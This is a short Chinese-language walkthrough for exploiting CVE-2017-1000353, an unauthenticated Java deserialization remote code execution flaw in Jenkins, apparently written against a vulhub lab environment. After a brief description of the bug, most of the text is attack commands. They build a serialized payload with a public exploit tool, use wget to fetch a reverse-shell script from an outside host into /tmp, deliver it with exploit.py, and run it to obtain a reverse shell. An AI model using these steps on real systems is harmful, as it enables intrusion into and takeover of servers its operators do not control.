 # CVE-2017-1000353



## 一、漏洞描述

Jenkins 未授权远程代码执行漏洞, 允许攻击者将序列化的 Java SignedObject 对象传输给 Jenkins CLI 处理，反序列化 ObjectInputStream 作为 Command 对象，这将绕过基于黑名单的保护机制, 导致代码执行。

## 二、利用流程

1 对应环境为 Jenkins 远程代码执行漏洞(CVE-2017-1000353）

![](./1.png)

2 利用工具https://github.com/vulhub/CVE-2017-1000353

3 执行命令生成字节码文件，“ ”处填可反弹 shell 文件地址

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "wget 1.1.1.1/nc.py -P /tmp"
```

4 发送数据包，执行命令，使文件下载到服务器

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![](./2.png)

5 生成字节码文件，“ ”处填写要执行的脚本

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "/bin/bash /tmp/nc.py"
```

6 发送数据包，执行脚本

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

7 可反弹shell

